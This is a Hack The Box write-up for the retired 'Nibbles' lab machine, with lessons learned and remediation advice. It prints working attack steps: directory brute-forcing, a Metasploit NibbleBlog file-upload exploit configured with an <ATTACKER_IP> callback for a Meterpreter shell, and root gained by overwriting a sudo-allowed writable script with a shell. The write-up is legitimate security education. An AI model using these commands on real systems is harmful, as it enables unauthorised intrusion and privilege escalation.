








# Nibbles — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Status** | ✅ Retired |
| **Key techniques** | Source recon, NibbleBlog CMS RCE, `sudo` misconfiguration |

---

## TL;DR

Nibbles looks empty at first glance — a single "Hello world!" page —
until the page source points at a hidden `/nibbleblog/` directory.
Guessing the admin password (after a blacklist made brute-forcing
painful) got into NibbleBlog's admin panel, which has a known file-upload
RCE. Root came from a `sudo` rule pointing at a script the user could
freely edit.

---

## Recon

```bash
nmap -sC -sV -sS 10.10.10.75
```



---

## Enumeration

### HTTP

The site itself was just a plain "Hello world!" page:



The page source had a comment giving it away:

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```



Ran gobuster against that path with a `.php` extension filter:

```bash
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
```



`/admin.php` led to a NibbleBlog login page.

---

## Foothold / Initial Access

NibbleBlog had a login blacklist configured, which ruled out a
straightforward brute-force — tried anyway with Hydra to confirm, then
switched to guessing a handful of likely passwords manually instead:



`nibbles` — the site's own name — turned out to be the admin password.

With admin access, NibbleBlog has a known file-upload remote code
execution (there's both a Metasploit module and a public script for it).
Configured and ran the Metasploit version:

```
msf6 > use exploit/multi/http/nibbleblog_file_upload
set PASSWORD nibbles
set USERNAME admin
set TARGETURI /nibbleblog/
set LHOST <ATTACKER_IP>
set RHOSTS 10.10.10.75
run
```



Got a Meterpreter shell. User flag retrieved from the home directory.

---

## Privilege Escalation

A `personal.zip` file sat in nibbler's home directory. Unzipping it
placed a script, `monitor.sh`, under `personal/stuff/`:



Checked `sudo -l`:

```bash
sudo -l
```



`nibbler` could run `/home/nibbler/personal/stuff/monitor.sh` as root
with no password — and that's exactly the path `unzip` had just written
to, which meant the script was fully writable by the same user allowed to
`sudo` it. Overwrote it with a shell:

```bash
echo -e '#!/bin/bash\n/bin/bash' > /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

Root shell, root flag retrieved.

---

## Lessons Learned

- HTML comments are still worth checking on every page — a single
  "nothing interesting here" comment was the entire path to the real
  application.
- A login blacklist stops automated brute-forcing but not a short list of
  manually-guessed, contextually obvious passwords (the site's own name,
  here).
- A `sudo` rule pointing at a script is only as safe as that script's own
  file permissions — if the invoking user can write to it, `sudo` grants
  arbitrary code execution as the rule's target user.

---

## Remediation

- Remove informational comments from production page source, and don't
  rely on "security through obscurity" for hidden paths.
- Enforce strong, non-guessable admin passwords regardless of blacklist
  protections against automated brute-forcing.
- Ensure any script referenced in a `sudo` rule is owned by and writable
  only by root (or another suitably trusted account), never by the user
  permitted to run it.

---

## Tools used

- `nmap`
- `gobuster`
- Hydra
- Metasploit (`nibbleblog_file_upload`)
- `sudo`

---

**Machine:** [Hack The Box — Nibbles](https://www.hackthebox.com/machines/nibbles)
